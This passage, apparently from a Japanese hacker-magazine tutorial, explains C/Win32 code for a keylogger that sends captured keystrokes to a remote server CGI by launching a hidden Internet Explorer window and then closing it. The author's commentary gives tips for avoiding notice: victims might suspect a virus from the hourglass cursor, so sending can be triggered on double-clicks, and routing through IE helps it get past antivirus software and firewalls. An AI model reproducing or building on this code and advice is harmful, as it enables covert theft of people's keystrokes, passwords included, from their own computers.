     PROCESS_INFORMATION PI;
    if(CreateProcess(NULL, SendAllData, NULL, NULL, TRUE, 
        0, NULL, NULL, &SI, &PI) != TRUE){
            return TRUE;
    }
-----

　プロセスを生成しています。これがＩＥの起動になりますのでWindow（ＩＥ）
は非表示にしておきます。CreateProcess関数の説明はWBvol.8を参照してくださ
い。

-----
    char Title[256];
    wsprintf(Title,
        "%s - Microsoft Internet Explorer",
        TEXT(FILE_TITLE));

    HWND ieWindow;
    if((ieWindow = FindWindow(NULL, Title)) == NULL){
        return TRUE;
    }

    PostMessage(ieWindow ,WM_CLOSE, 0, 0);
    WaitForSingleObject(PI.hProcess, 3000);
    CloseHandle(PI.hProcess);

    delete []SendAllData;
    return FALSE;
}
-----

　ここはＩＥのWindowを探す処理を行っています。ＩＥのWindowタイトルは「Ｈ
Ｐのタイトル - Microsoft Internet Explorer」となりますので（例えばＩＥで
Wizard Bibleを閲覧してるなら「Wizard Bible - Microsoft Internet Explorer」
ですよね）それをTitle変数にいれてます。そしてFindWindow関数でその該当す
るWindow（つまりＩＥ）を検索します。もしそういうタイトルのWindowが存在し
なかったなら何かしらのエラーなのでTRUEを返します。存在したならサーバ上の
CGIにデータ送信を完了したということなのでPostMessageでWM_CLOSEを送信し終
了させます。あとはWaitForSingleObjectでプロセスの終了を受け取ってハンド
ルを閉じます。

　さて、これを実行してみてください。15文字のキーログを取得しデータを送信
するときにマウスが「砂時計」になっちゃいます（なりませんか？）。個人的な
見解と偏見によるとおそらくＩＥ起動に処理がかかってるんだろうなと思います
が、こればっかりはどうしようもありません(^^;。15文字ごとに起動されちゃう
ので、このような頻度で砂時計がでてきたら「もしかしたらウイルスに感染した
かも？」という風に気づいちゃう人がでてくるかもしれないのでなんとかしたい
です。まぁ文字送信の単位を15文字ではなく256文字くらいにしてもよいのです
が、あまり長いとログの更新が遅れるので、例えばダブルクリックをフックして
送信するというようにするなどがよいかもしれません。ダブルクリックをする場
合はだいたいプログラムの起動なわけですので砂時計がでても「起動しているプ
ログラムが重いのかな？」くらいですむでしょうし。ＩＥを利用してる分アンチ
ウイルスソフトやファイヤーウォールには引っかかりにくいと思いますが、いろ
いろと融通がきかないのは仕方ないです。
